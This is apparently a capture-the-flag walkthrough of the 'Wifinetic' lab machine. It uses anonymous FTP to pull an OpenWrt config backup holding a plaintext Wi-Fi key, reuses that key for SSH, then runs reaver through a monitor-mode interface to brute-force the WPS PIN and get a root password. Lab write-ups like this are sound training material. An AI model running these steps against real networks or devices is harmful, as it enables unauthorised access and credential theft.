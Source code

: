 ```yaml
---
description: Wifi Box!
---
```


# Wifinetic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.68.239 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 18:57 +08
Nmap scan report for 10.129.68.239
Host is up (0.020s latency).
Not shown: 52717 closed tcp ports (conn-refused), 12815 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
53/tcp open  domain
```

FTP is open, so we should check for anonymous access.

### Anonymous FTP --> Wifi Password --> SSH

There were quite a few files within this FTP server:

```
$ ftp 10.129.68.239                                               
Connected to 10.129.68.239.
220 (vsFTPd 3.0.3)
Name (10.129.68.239:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44452|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
-rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
-rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
-rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
```

The most interesting is the `.tar` file that contained a backup of some sorts. When we download this and extract the files, it shows that this is the `/etc/` file:

```
$ tar -xf backup-OpenWrt-2023-07-26.tar
$ cd etc
$ ls
config    group  inittab       nftables.d  passwd   rc.local  shinit       uhttpd.crt
dropbear  hosts  luci-uploads  opkg        profile  shells    sysctl.conf  uhttpd.key
```

Within the `/etc/config` file, there was a `wireless` file. Since this was a Wifi themed box, I read the file and found a password:

```
$ cat wireless 

config wifi-device 'radio0'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim0'
        option cell_density '0'
        option channel 'auto'
        option band '2g'
        option txpower '20'

config wifi-device 'radio1'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim1'
        option channel '36'
        option band '5g'
        option htmode 'HE80'
        option cell_density '0'

config wifi-iface 'wifinet0'
        option device 'radio0'
        option mode 'ap'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
        option wps_pushbutton '1'

config wifi-iface 'wifinet1'
        option device 'radio1'
        option mode 'sta'
        option network 'wwan'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
```

The question now is whether the box is transmitting stuff over the air, or if there's a user that uses this password. Reading the `passwd` file shows us a few users:

```
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

The `netadmin` user reused it:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Enumeration

Since this is a Wifi box, we can check `ifconfig` for the interfaces available:

```
netadmin@wifinetic:/opt/share$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.68.239  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:feb9:501e  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:501e  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:50:1e  txqueuelen 1000  (Ethernet)
        RX packets 199994  bytes 14812436 (14.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 199850  bytes 10858403 (10.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 862  bytes 53092 (53.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 862  bytes 53092 (53.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)
        RX packets 6865  bytes 1209922 (1.2 MB)
        RX errors 0  dropped 6865  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:00:00  txqueuelen 1000  (Ethernet)
        RX packets 229  bytes 21998 (21.9 KB)
        RX errors 0  dropped 31  overruns 0  frame 0
        TX packets 288  bytes 33715 (33.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:100  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:01:00  txqueuelen 1000  (Ethernet)
        RX packets 82  bytes 10771 (10.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 229  bytes 26120 (26.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's a `mon0` interface listening, and checking `iwconfig` shows that it is in Monitor mode:

```
netadmin@wifinetic:/opt/share$ iwconfig
wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
eth0      no wireless extensions.

wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
hwsim0    no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Interesting. There wasn't much else I could do, so I ran `linpeas.sh` to enumerate for me, and it found `reaver`, a program I wasn't familiar with:

```
Files with capabilities:
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

This tool can be used to brute force Wifi passwords out. Using this tool, combined with our Monitor mode `mon0` interface, we can start sniffing stuff from `wlan0` and `wlan1`. We can grab the ether value and feed it into `reaver`:

```
netadmin@wifinetic:/tmp$ reaver -i mon0 -b 02:00:00:00:00:00 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
```

Afterwards, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
